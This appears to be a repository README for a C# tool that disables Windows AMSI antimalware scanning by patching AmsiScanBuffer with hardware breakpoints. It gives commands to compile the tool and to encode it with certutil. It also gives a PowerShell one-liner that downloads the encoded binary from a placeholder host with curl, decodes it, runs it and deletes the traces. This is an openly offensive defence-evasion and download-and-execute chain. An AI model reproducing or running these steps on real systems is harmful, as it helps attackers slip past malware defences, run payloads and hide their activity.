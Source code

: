 # Overview 

## This repo contains a C# implementation to patch AmsiScanBuffer utilizing hardware breakpoints. I used this code as a reference but optimized it and added comments for the code, https://gist.github.com/susMdT/360c64c842583f8732cc1c98a60bfd9e.

```
## How to compile
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:test.exe .\am_s.cs
```

## Encode the binary into a text file 
```powershell
certutil -encode test.exe test.txt
```
## Execute the binary using Microsoft Signed binaries
```powershell
Start-Process -FilePath curl -ArgumentList "http://<IP>/test.txt -o $($pwd.Path)\test.txt" -Wait; certutil -decode "$($pwd.Path)\test.txt" "$($pwd.Path)\test.exe"; Start-Process -FilePath "$($pwd.Path)\test.exe" -Wait; Remove-Item -Path "$($pwd.Path)\test.exe"; Remove-Item -Path "$($pwd.Path)\test.txt"
```
